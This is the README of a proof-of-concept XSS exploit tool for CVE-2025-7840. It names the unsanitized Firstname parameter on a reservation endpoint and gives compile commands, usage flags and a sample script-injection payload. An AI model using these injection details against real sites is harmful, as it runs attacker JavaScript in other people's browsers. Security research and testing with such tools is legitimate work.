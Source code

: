 # XSS Exploit for CVE-2025-7840

**Author**: Byte Reaper (@ByteReaper0)

## Description

Proof‑of‑concept exploit for **CVE-2025-7840**, targeting a vulnerable web application endpoint that fails to sanitize user input on the `Firstname` parameter of a reservation form. By crafting a GET request to:

```
/index.php?page=reserve&Firstname=<payload>&Lastname=test
```

an attacker can inject and execute arbitrary JavaScript in the victim’s browser when the response is rendered.

## Features

* Inject custom payloads with `-b` option
* Handle cookie-based sessions via `-c` option
* Verbose logging for request/response analysis (`-v`)
* Built-in set of common XSS payloads

## Requirements

* Linux or macOS
* GCC (or compatible C compiler)
* `libcurl` development headers
* `argparse` library for C

## Installation

1. Compile the exploit:

   ```
   gcc -o exploit exploit.c argparse.c -lcurl 
   ```

## Usage

```
sudo ./exploit -u <TARGET_URL> [options]
```

### Options

| Flag         | Description                                  |
| ------------ | -------------------------------------------- |
| `-u` URL     | Target base URL (e.g. `http://victim.local`) |
| `-b` PAYLOAD | Custom XSS payload to inject                 |
| `-c` FILE    | Cookie jar file to use for session handling  |
| `-v`         | Verbose mode (show request/response details) |

### Examples

* Run default payloads against a target:

  ```
  sudo ./exploit -u http://victim.local
  ```

* Use a custom payload:

  ```
  sudo ./exploit -u http://victim.local -b "<script>alert(\'PWNED\')</script>"
  ```

* Include session cookies and verbose output:

  ```
  sudo ./exploit -u http://victim.local -c cookies.txt -v
  ```

## Disclaimer

This code is provided for educational and testing purposes only. Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.

## References

* CVE-2025-7840: XSS in reservation form
* Author Telegram: @ByteReaper0
## LICENSE:
MIT 